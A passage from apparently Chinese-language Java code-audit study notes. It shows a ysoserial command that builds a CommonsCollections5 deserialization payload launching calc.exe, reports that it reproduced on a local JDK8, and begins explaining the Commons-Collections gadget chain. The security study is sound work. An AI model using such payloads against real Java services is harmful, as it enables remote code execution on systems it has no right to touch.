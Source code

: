   - **java -jar ysoserial.jar CommonsCollections5 calc.exe** **>** **payload.bin**    在windows下运行生成payload会有问题，linux下就正常了

  ![image-20211203113352471](java代码审计.assets/image-20211203113352471.png)

  - 使用commonsColletions5生成的payload在本地jdk8环境下复现成功
    ![image-20211203113442453](java代码审计.assets/image-20211203113442453.png)
- cc链：

  - apache commons-collections组件反序列化漏洞的反射链也称为CC链。